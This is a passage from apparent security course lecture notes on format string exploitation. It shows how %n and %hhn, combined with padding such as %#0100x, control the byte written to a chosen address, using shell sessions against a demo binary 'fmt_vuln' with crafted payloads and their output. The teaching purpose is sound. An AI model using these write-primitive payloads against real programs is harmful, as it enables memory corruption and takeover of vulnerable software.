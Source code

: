 Now that we can write a single byte, how do we control what we write?
For that, we have to remember exactly what `%n` does, it writes the
number of bytes formatted so far. And, we control how many bytes are
provided to the format, so we just have to increase or decrease the
total number of bytes.

That means, for every additional byte we add prior to the `%n`, we
increase the value of the byte we write by one.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08")A.%#08x.%#08x.%#08x.%hhn
Right: /A.%#08x.%#08x.%#08x.%hhn

Wrong: /A.0xbffff2b0.0x000400.0x000004.

[*] test_val @ 0x804a02c = 591479105 0x23414141

user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08")AA.%#08x.%#08x.%#08x.%hhn
Right: /AA.%#08x.%#08x.%#08x.%hhn

Wrong: /AA.0xbffff2b0.0x000400.0x000004.

[*] test_val @ 0x804a02c = 608256321 0x24414141

user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08")AAAAAAAAAAAAAAAAAAAAAAA.%#08x.%#08x.%#08x.%hhn
Right: /AAAAAAAAAAAAAAAAAAAAAAA.%#08x.%#08x.%#08x.%hhn

Wrong: /AAAAAAAAAAAAAAAAAAAAAAA.0xbffff290.0x000400.0x000004.

[*] test_val @ 0x804a02c = 960577857 0x39414141
```

You can already start to see a problem: Adding individual values to get
the value we need can be really annoying. There's a better way, and
again, it relies on the format directive flags. We can arbitrarily
increase the length of an output by padding 0's. See below:

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08").%#08x.%#08x.%#08x.%hhn
Right: /.%#08x.%#08x.%#08x.%hhn

Wrong: /.0xbffff2b0.0x000400.0x000004.

[*] test_val @ 0x804a02c = 574701889 0x22414141
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08").%#08x.%#08x.%#016x.%hhn
Right: /.%#08x.%#08x.%#016x.%hhn

Wrong: /.0xbffff2b0.0x000400.0x00000000000004.

[*] test_val @ 0x804a02c = 708919617 0x2a414141
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08").%#08x.%#08x.%#022x.%hhn
Right: /.%#08x.%#08x.%#022x.%hhn

Wrong: /.0xbffff2b0.0x000400.0x00000000000000000004.

[*] test_val @ 0x804a02c = 809582913 0x30414141
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08").%#08x.%#08x.%#0100x.%hhn
Right: /.%#08x.%#08x.%#0100x.%hhn

Wrong: /.0xbffff2b0.0x000400.0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004.

[*] test_val @ 0x804a02c = 2118205761 0x7e414141
```
